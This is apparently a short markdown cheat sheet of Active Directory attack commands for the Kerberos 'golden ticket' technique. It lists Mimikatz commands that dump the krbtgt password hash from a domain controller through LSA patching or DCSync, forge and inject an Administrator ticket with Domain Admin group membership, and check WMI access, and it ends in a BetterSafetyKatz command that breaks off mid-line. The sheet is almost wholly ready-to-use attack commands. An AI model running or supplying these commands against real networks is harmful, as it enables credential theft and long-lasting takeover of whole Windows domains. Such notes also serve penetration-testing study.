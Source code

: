 # Golden Ticket

**Dump hashes - Get the krbtgt hash**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

**Make golden ticket**

Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process To get the SID use `Get-DomainSID` from powerview

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

**Use the DCSync feature for getting krbtgt hash. Execute with DA privileges**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

**Check WMI Permission**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

#### BetterSafetyKatz Golden Ticket

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.mo
```

